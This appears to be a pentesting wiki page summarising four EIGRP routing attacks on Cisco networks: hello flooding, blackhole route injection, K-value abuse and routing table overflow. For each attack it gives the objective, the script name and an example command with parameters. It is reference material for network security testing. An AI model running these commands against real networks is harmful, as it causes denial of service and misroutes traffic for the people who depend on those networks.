 # EIGRP Attacks

{{#include ../../banners/hacktricks-training.md}}

**This is a summary of the attacks exposed in** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9). Check it for further information.

## **Fake EIGRP Neighbors Attack**

- **Objective**: To overload router CPUs by flooding them with EIGRP hello packets, potentially leading to a Denial of Service (DoS) attack.
- **Tool**: **helloflooding.py** script.
- **Execution**:
  %%%bash
  ~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
  %%%
- **Parameters**:
  - `--interface`: Specifies the network interface, e.g., `eth0`.
  - `--as`: Defines the EIGRP autonomous system number, e.g., `1`.
  - `--subnet`: Sets the subnet location, e.g., `10.10.100.0/24`.

## **EIGRP Blackhole Attack**

- **Objective**: To disrupt network traffic flow by injecting a false route, leading to a blackhole where the traffic is directed to a non-existent destination.
- **Tool**: **routeinject.py** script.
- **Execution**:
  %%%bash
  ~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
  %%%
- **Parameters**:
  - `--interface`: Specifies the attacker’s system interface.
  - `--as`: Defines the EIGRP AS number.
  - `--src`: Sets the attacker’s IP address.
  - `--dst`: Sets the target subnet IP.
  - `--prefix`: Defines the mask of the target subnet IP.

## **Abusing K-Values Attack**

- **Objective**: To create continuous disruptions and reconnections within the EIGRP domain by injecting altered K-values, effectively resulting in a DoS attack.
- **Tool**: **relationshipnightmare.py** script.
- **Execution**:
  %%%bash
  ~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
  %%%
- **Parameters**:
  - `--interface`: Specifies the network interface.
  - `--as`: Defines the EIGRP AS number.
  - `--src`: Sets the IP Address of a legitimate router.

## **Routing Table Overflow Attack**

- **Objective**: To strain the router's CPU and RAM by flooding the routing table with numerous false routes.
- **Tool**: **routingtableoverflow.py** script.
- **Execution**:
  %%%bash
  sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
  %%%
- **Parameters**:
  - `--interface`: Specifies the network interface.
  - `--as`: Defines the EIGRP AS number.
  - `--src`: Sets the attacker’s IP address.

{{#include ../../banners/hacktricks-training.md}}


